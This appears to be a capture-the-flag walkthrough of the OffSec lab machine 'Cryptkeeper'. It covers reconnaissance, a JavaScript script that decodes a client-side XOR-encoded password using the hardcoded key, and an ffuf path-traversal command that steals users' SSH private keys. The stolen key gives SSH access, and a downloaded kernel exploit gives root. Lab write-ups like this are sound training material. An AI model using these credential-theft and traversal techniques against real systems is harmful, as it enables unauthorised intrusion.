










Offsec - Cryptkeeper - Walktrough
Summary
Reconnaissance
Let's start with an nmap scan
└─$ sudo nmap -p- -A -T4 TARGET_IP┌──(londra㉿kali)-[~]
└─$ sudo nmap -p- -A -T4 192.168.107.244
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-19 21:10 +0200
Nmap scan report for 192.168.107.244
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_ 256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
41169/tcp filtered unknown
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 1025/tcp)
HOP RTT ADDRESS
1 25.35 ms 192.168.45.1
2 25.34 ms 192.168.45.254
3 25.37 ms 192.168.251.1
4 25.40 ms 192.168.107.244
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.46 secondsIt shows port 80 (http) and 22 (ssh) are open. A version scan is not needed here.
Enumeration
I opened the webpage and landed on a login page:

Looking at the sites source code, I found a WASM script, and application.js, both containing login logic
I downloaded the WASM script and then decompiled the downloaded file using WABT: The WebAssembly Binary Toolkit. I downloaded WABT to my kali machine:
└─$ wget https://github.com/WebAssembly/wabt/releases/download/1.0.41/wabt-1.0.41-linux-x64.tar.gzAnd then de-compiled it to C:
└─$ ./wasm2c authentication.wasm
I read through both the decompile WASM and application.js. This is the authentication process:
- 1. You type a username into the login form
- 2. The browser asks the server: "Give me the encoded password for this username"
- 3. The server responds with a XOR-encoded blob containing the password of the username you entered, concatenated with the username itself
- 4. The browser decrypts the blob
- 5. The browser compares the decrypted result to the password you typed
- 6. If they match -> login succeeds, a token gets sent to the server
Now, what's so dangerous, is that step 4 and 5 are executed in the browser. Thus, we control that process. Also, the XOR-key to decrypt the blob is hardcoded into WASM binary. It gets loaded into memory at startup and is trivially recoverable by anyone who decompiles the file. Because we control this process, we can simply ask the server for the encoded blob, decode it ourselves using the key we extracted from the WASM binary, and read the plaintext password directly, without ever needing to guess it.
I got help of AI during the process of reverse engineering the WASM binary
and crafting the following javascript-script.
This script decodes the returned XOR-encoded blob inside the console:
Javascript XOR decoder
//Get encoded blob of the admin user
var xhr = new XMLHttpRequest();
xhr.open("GET", "/loginUser?user=admin", false);
xhr.send(null);
var cp = xhr.responseText;
console.log("Full CP:", cp, "Length:", cp.length);
//Decode the XOR-encoded blob using the hardcoded XOR-key
const key = [0x41,0x29,0x9F,0x13,0x45,0x42,0x88,0xFC,0xB8,0xD6,0xD0,0x5D,0x30,0xF6,0x12,0xCF];
let decoded = "";
for (let i = 0; i < cp.length; i += 2) {
const byte = parseInt(cp.substring(i, i+2), 16);
decoded += String.fromCharCode(byte ^ key[(i/2) % key.length]);
}
console.log("Decoded:", decoded);
//Last 5 chars should be "admin", rest is the password
console.log("Password:", decoded.slice(0, -5));
console.log("Username suffix:", decoded.slice(-5));
I ran the script in the console at the login page and found the password:

I succesfully logged in using the retreived password:

Exploitation
We landed in a text editor. If we click for example, "Edit welcome.txt", it displays the following:

Inspecting the browser network tab shows that the following URL is called when clicking on "Edit welcome.txt":

We can leverage this to perform a path traversal attack. I first tried to access /etc/passwd, but that didn't work. I then pivoted to targeting users' private keys instead. Since we don't yet know which users exist on the system, we can fuzz for them with the following command:
└─$ ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \ -u "http://192.168.107.244/loadFile?file=/var/www/fileEditor/fileEditorSite/static/files/../../../../../../../../../home/FUZZ/.ssh/id_rsa" -mr "PRIVATE KEY" -b "session=SESSION_COOKIE"┌──(londra㉿kali)-[/usr/…/wordlists/seclists/Usernames/Names]
└─$ ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
-u "http://192.168.107.244/loadFile?file=/var/www/fileEditor/fileEditorSite/static/files/../../../../../../../../../home/FUZZ/.ssh/id_rsa" -mr "PRIVATE KEY" -b "session=eyJsb2dnZWRJbiI6dHJ1ZSwibm9uY2UiOiI2MjY5YmFkZDNjNjg0MWRhNjBhMjBhODJhMGRjMDQ4MSIsInVzZXJuYW1lIjoiYWRtaW4ifQ.aoX3Sg.wR_AbC9ZhwGWbA-uXO8q8c5eVbc"
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://192.168.107.244/loadFile?file=/var/www/fileEditor/fileEditorSite/static/files/../../../../../../../../../home/FUZZ/.ssh/id_rsa
:: Wordlist : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
:: Header : Cookie: session=eyJsb2dnZWRJbiI6dHJ1ZSwibm9uY2UiOiI2MjY5YmFkZDNjNjg0MWRhNjBhMjBhODJhMGRjMDQ4MSIsInVzZXJuYW1lIjoiYWRtaW4ifQ.aoX3Sg.wR_AbC9ZhwGWbA-uXO8q8c5eVbc
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Regexp: PRIVATE KEY
________________________________________________
harry [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 71ms]
:: Progress: [10713/10713] :: Job [1/1] :: 272 req/sec :: Duration: [0:00:16] :: Errors: 0 ::As you can see, ffuf got a response containing "PRIVATE KEY" when it accessed the following URL: http://192.168.107.244/loadFile?file=/var/www/fileEditor/fileEditorSite/static/files/../../../../../../../../../home/harry/.ssh/id_rsa
Accessing it in the browser reveals that it is an SSH private key. Pressing Ctrl+U then displays the private key in the correct format:

We copy the content to a file called "id_rsa". Then, we execute the following command:
└─$ chmod 600 id_rsa && ssh -i id_rsa harry@TARGET_IPThis opens up an SSH connection and allows us to read the first flag:

Privilege Escalation
Wait, I want to tell you something... This box is unsolvable the way the author intended it. After 9 hours of struggling, I decided to take a look at the walkthrough myself. This is always a tough decision as it takes a piece of the fun away. However, the walkthrough stated, that, in order to escalate our privileges, we had to find a "XOR-encrypted backup file". I scanned the entire system for hours and hours without finding a file that came remotely close to the backup file. This is a screenshot from the official walkthrough:

So, according to the walkthrough, /tmp should contain the file "backup.tar.gz.encrypted". Well, here is a screenshot of the fresh /tmp directory:

So... what now? Well, during enumeration I also figured out that this machines kernel is vulnerable to Copyfail:

So that is what I did. I found a good Copyfail PoC on github
I copied the content to the machine and saved it under "copyfail.py":

After that is done, we can execute it and become root instantly:
└─$ chmod +x copyfail.py && ./copyfail.pyAllowing us to read the root flag:

I didn't take the intended path, simply because that was impossible. I did however learned something new today.
I hope you did too. Have a nice rest of your day!